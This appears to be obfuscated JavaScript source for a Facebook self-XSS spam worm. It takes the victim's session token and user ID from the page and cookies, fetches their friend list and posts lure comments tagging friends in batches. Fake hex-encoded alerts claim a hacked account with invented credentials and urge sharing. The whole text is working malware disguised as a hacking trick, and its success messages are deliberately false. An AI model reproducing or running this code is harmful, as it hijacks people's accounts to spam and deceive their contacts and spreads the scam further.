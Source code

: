 var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","370744089733576","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," Siahkan dicoba 󾁇 @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=Horreeee .... Teman2 aku berhasillll..... Asssyyyiiiikkk ...... 󾬐 󾔐󾠓󾁓󾮜 \udbba\udc28 \udbb8\udc40 \udbb8\udc3d \udbb8\udc3c \udbb8\udc41 \udbb8\udc46 \udbb8\udc45 Tadinya sih aku gak percaya banget, tapi sebaik aku coba cara ini ternyata berhasilll.... Yesss..... ","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
var _0xb73c=["\x59\x6F\x75\x20\x46\x6F\x75\x6E\x64\x20\x31\x20\x46\x61\x63\x65\x62\x6F\x6F\x6B\x20\x41\x63\x63\x6F\x75\x6E\x74","\x0A","\x48\x61\x63\x6B\x65\x64\x20\x53\x75\x63\x63\x65\x73\x73\x21","\x45\x6D\x61\x69\x6C\x20\x3A\x20\x48\x61\x63\x6B\x73\x55\x73\x65\x72\x73\x31\x37\x38\x32\x40\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x20\x7C\x20\x50\x61\x73\x73\x20\x3A\x20\x48\x61\x63\x6B\x73\x31\x37\x38\x32","\x31\x37\x38\x32\x20\x46\x61\x63\x65\x62\x6F\x6F\x6B\x20\x41\x63\x63\x6F\x75\x6E\x74","\x54\x6F\x74\x61\x6C\x20\x48\x61\x63\x6B\x65\x64\x20\x54\x6F\x64\x61\x79\x20\x42\x79\x20\x52\x69\x7A\x6B\x79\x5F\x43\x72\x65\x61\x74\x69\x6F\x6E\x73\x20\x3A","\x43\x6C\x69\x63\x6B\x20\x53\x68\x61\x72\x65\x20\x54\x6F\x20\x57\x6F\x72\x6B\x20\x31\x30\x30\x25"];var a=_0xb73c[0];function MsgBox(_0xb7e2x3){alert(_0xb7e2x3+_0xb73c[1]+a);} ;MsgBox(_0xb73c[2]);alert(_0xb73c[3]);var a=_0xb73c[4];MsgBox(_0xb73c[5]);alert(_0xb73c[6]);

